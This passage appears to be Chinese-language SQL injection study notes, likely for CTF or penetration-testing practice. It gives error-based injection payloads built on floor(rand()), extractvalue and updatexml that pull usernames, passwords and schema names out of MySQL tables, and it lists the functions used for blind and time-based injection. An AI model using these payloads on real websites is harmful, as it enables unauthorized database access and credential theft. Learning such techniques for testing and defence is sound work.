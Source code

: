     ```sql
    #count(*)占一列,想爆出的数据在concat里面构造(使用select语句)，concat里面包含floor(rand())，然后concat as a，from指向对应表,必须from一个表。
    #因为会报语法错误，所以可以和之前order by n 一样。知道sql语句列数
    
    select count(*),concat(floor(rand(0)*2),'~',database())as a from information_schema.schemata group by a
    
    select 1,count(*),concat(floor(rand(0)*2),'~',(select schema_name from information_schema.schemata limit 4,1))as a from information_schema.schemata group by a %23
    ```

- 其他双注入

    ```sql
    extractvalue(xml_frag,xpath_expr)
    # extractvalue()接受两个字符串参数，一个xml标记xml_frag的片段和一个xpath表达式xpath_expr(也称为定位符)。这个函数返回第一个文本节点的文本 也可用作报错注入。 返回结果 限制在32位字符。
    id=1' and and extractvalue(1,concat(0x5e24,(select id from users limit 0,1)))-
    
    updatexml(xml_target,xpath_expr,new_xml)
    #此函数用新的xml片段new_xml替换xml标记xml_target的给定片段的单个部分，然后返回更改的xml。被替换的xml_target的部分与用户提供的xpath表达式xpath_expr匹配。例如
    id=1' and updatexml(1,concat(0x5e24,(select username from users limit 0,1)),1)--+
    
    name_const(name,value)
    # 用于生成结果时，name_const()会使列具有给定的名称。参数应该是常量。它和select value as name是等价的。我们可以构造两个列使得它们名字一样并在列名中填写获得我们想要的信息的语句。
    
    
    ```

- 解决返回结果限制在32位字符。

    ```sql
    substr(字符串,截取开始位置,截取长度) #返回截取的字
    #left函数，right函数
    extractvalue(0x0a,concat(0x0a,(select(left(password,20))from(H4rDsq1))))%23
    ```

### 盲注

> 利用前提：页面上没有显示位，也没有输出 SQL 语句执行错误信息。正确的 SQL 语句和错误的 SQL 语句返回页面都一样，但是加入 sleep(5)条件之后，页面的返回速度明显慢了 5 秒。
>
> 优点：不需要显示位，不需要出错信息。
>
> 缺点：速度慢，耗费大量时间

盲注要用到的函数

```sql
length(str)	返回字符串str的长度
if(expr1,expr2,expr3): 	 sql的if语句就相当于一个三元运算符，1对执行2，1错执行3
LEFT(character_expression,integer_expression);	返回字符串中从左边开始指定个数字符。
RIGHT(character_expression,integer_expression);	返回字符串从右边开始指定个数字符。
select mid('abcdefghijklmn',5,5);
substr()函数：	substr('123456',3,2);  结果是--34 
    #作用：用来截取数据库某个字段中的一部分。     
    #语法：substr(string,start,length)  下标从1开始
select ord('a');
ASCII(str)：	返回字符串str的最左字符的整数数值。
    #如果str为空字符串,返回0。如果str为NULL，返回NULL，。 ASCII()返回数值是从0到255。python ord功能和它一样，与之相反的是chr
sleep(n)	#睡眠函数，当函数执行时，会睡眠n秒，然后才唤醒进程。
benchmark函数，可以让同一个函数执行若干次	
Benchmark(count,expr) ，这个函数执行的结果，是将表达式 expr 执行 count 次 。benchmark(100000000,md5(1))

```
